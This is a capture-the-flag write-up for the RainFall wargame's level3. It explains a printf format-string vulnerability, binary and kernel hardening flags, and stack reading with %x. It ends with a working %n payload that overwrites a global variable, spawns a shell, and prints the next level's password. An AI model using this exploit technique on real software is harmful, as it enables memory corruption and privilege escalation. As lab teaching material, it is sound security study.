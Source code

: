 # level3

### Understanding the problem

First, as always we analyze the code through ghidra, we get something looking like this:

```c
void v(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
```

The main function is only calling v(). So as we can see this time we use fgets() a secured version of gets() that only takes a specific number of character, here 0x200 which in decimal is 512. the buffer is 520 chars long, longer than the input size accepted in the fgets(). No obvious security breach so far.

We see that in order to solve this exercise and launch a new shell, we need m to be equal to 0x40 which correspond to 64 in decimal, there are no declaration for m tho besides in ghidra at some point with the address 0x0804988c

We also quickly realized that the difference with level2 is the usage of printf instead of puts. Because we know already a lot about this function, we tried something:

```sh
level3@RainFall:~$ ./level3 
%s
Segmentation fault (core dumped)
```

So %s makes the program segfault, the interesting part here is that apparently the input we entered triggered something in printf, which is probably interpreting this %s as a string shared via a variable, but no variabe are present so the program segfault. However by testing a little more we found that:

```sh
level3@RainFall:~$ ./level3 
%d
512
```

The %d is interpreted, and with what ? The next variable in the stack, which apparently is the buffer size. We can now read into the stack with this exploit:

```sh
AAAA %x %x %x %x %x %x %x                                                            
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We can see here a buffer that we fill by "AAAA", then the buffer size in hexadecimal form, then 2 addresses in the stack (starts with b), then our buffer again but stored (41 = A), and some random numbers after that. Problem here, how to write something ? We can read but we need somehow to make this mysterious m equal to 64. We just tried to do this:

```sh
level3@RainFall:~$ ./level3 
%m
Success
```

Wwe first thought it was related to the solution but actually %m prints the actual states of errno, since no errors happened, it prints success. Nothing to do with the exercices.

### Strange login output (digression)

This part is, again, probably not gonna help us with this direct exercise but will help us understanding more things about our environment.
When we login we get this message (or similar) everytime:

```bash
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

We are first gonna focus on the second part, with the RELRO, STACK CANARY etc... than can be obtained with this command:

```bash
level0@RainFall:~$ hecksec --file /home/user/level3/level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

- RELRO - Relocation Read-Only. In ELF files, binay uses a look-up table called the GOT (Global Offset Table). This GOT is normally writable, so an attacker (us) could write a few bits on this GOT, and redirect code for malicious execution. Having this option desactivated like we have here since the beginning of those levels means that we can write on this GOT. The security added when activated is that the GOT is now read-only.

- STACK CANARY. This helps protecting stack overflows by simply adding random valued that will be validated at the end of the stack. If some malicious input are entered in the stack, the stack canary will be moved down and won't be valid, stopping the program and avoiding stack overflow. Here again it is deactivated since the beginning. (The story says that canary were used to detect toxic gases such as carbon monoxide in workspace). The canary is placed just before the return address so if it is modified we know a bufferflow is happening.

- NX - No-Execute. Here NX option is disabled, it was only enabled on level0 but disabled for the rest of the levels. This option is a built-in technology inside the CPU allowing to split the aread of memory into 2 sections, data, and code. When this option is enabled the memory space for data will not be able to execute code. which means that the stack, the heap or the BSS would not be able to execute code, for example when using a shellcode, if the NX bit was enabled, the code would not have been interpreted and executed but only read as data.

- PIE - Position Independent Executable. ELF files have a fixed base address space and code must be executed at this address in order to work. We saw it multiple time already but the code is loaded at 0x08048000 address space everytime which helps us to use it as valuable informations to make buffer overflow when this option is deactivated. For all levels so far this option have been deactivated.

- RPATH and RUNPATH define if the libraries on runtime are seached hard coded or not, having NO RPATH and NO RUNPATH is more secured to avoid arbitrary code execution.

As for the first part we have some elements that shows kernel security, they appears only when login in, where the program informations are printed when changing user. They just show some more protections that we can quickly describe like this using this command:

```
checksec --kernel
```

- GCC stack protector - when enable helps to protect buffer overflows. Here it is activated but never seemed to protect anything so far since all our buffer overflows exploits worked well.

- Strict user copy checks - disabled here, if it was activated it blocks certains interactions users have, for example not allowing them to copy files to kernel-spaces, and enforce user space memories rules.

- Read-only kernel data - Restrict /dev/mem - Restrict /dev/kmem - Those 3 options just add some security to prevent kernel memory modifications or simply access to any user, avoiding reading memory of certains area of the machine that could give very sensitive informations.

- grsecurity, PaX / Kernel Heap Hardening - Same thing they are both kernel protections, but those 2 are not enabled where the 3 we presented before are.

- ASLR - Address Space Layout Randomization is here not activated. As its name says, it allows the machine memory to not have fixed starting addresses but to be randomized, avoiding to know for instance that stacks memory starts by 0xb.

### Format String Vulnerability

The first thing we need to find is a way to write in the memory, because as far as we know, m is a global variable, declared but not set, so it is stored in bss space of the memory (this can be confirmed with objdump), if this variable is unset (and doesn't seem to be set anywhere in the program), we need to write 64 in it. For that we have this very weird but existing option in printf which is %n. %n allows us to __write__ the number of bytes printed so far at a certain address. The regular usage of it is as such:

```c
printf("This, is an %nexample", &addr);
```

This is gonna store 12 in addr (so the length of "This, is an "), into the next address present in memory, so here addr.

Here the next space in memory contains 0x200, for 512 in decimal and is probably the buffer size, so if we write %n, it is gonna try to write in the address memory 0x00000200 which is obviously not accessible by the program and will segfault:

```sh
level3@RainFall:~$ ./level3 
%n
Segmentation fault (core dumped)
```

So we need to somehow replace the address right next to the %n argument for the one of m. We also need to have a buffer of 64 chars before the %n so the value printed in m is 64 and fulfill the if statement. Thankfully we noticed that by printing a bunch of "%x" values, the buffer is stored not too far from where we're writing (stdin opened by fgets). So as a first try we just tried to print the addres, and a %n, and it segfault. Then trying to fill the space with random data to reach the 64 chars length, but same thing it segfault.

This last step of understanding took a looottttt of time to understand, but this is how it work. When entering the data in fgets, the values are passed to printf. When printf encounter a specific parameter such as %x, it is gonna "consume" a value from the stack, moving the stack pointer by one (It doesn't affect the rest of the execution, it is just consuming values inside printf, not for the rest of the execution). Which mean that if we could move the stack pointer to the space in the buffer when the address of m is, fill this buffer of 64 chars and finish it with a %n, then it should work. And it does:

```sh
level3@RainFall:~$ echo $(python -c "print('\x8c\x98\x04\x08' + '%x ' * 3 + 'A' * 38 + '%n')") > /tmp/payload
level3@RainFall:~$ cat /tmp/payload -| ./level3
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Important doc

[Video + short explanation for FSV](https://www.reddit.com/r/C_Programming/comments/18wtu9a/fgets_is_unsafe_so_whats_the_alternative/)

[CTF What's a format string vuln](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

[Exploiting format string vuln](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[Memory protection and bypasses](https://mdanilor.github.io/posts/memory-protections/)

[Checksec explained](https://medium.com/@slimm609/checksec-d4131dff0fca)
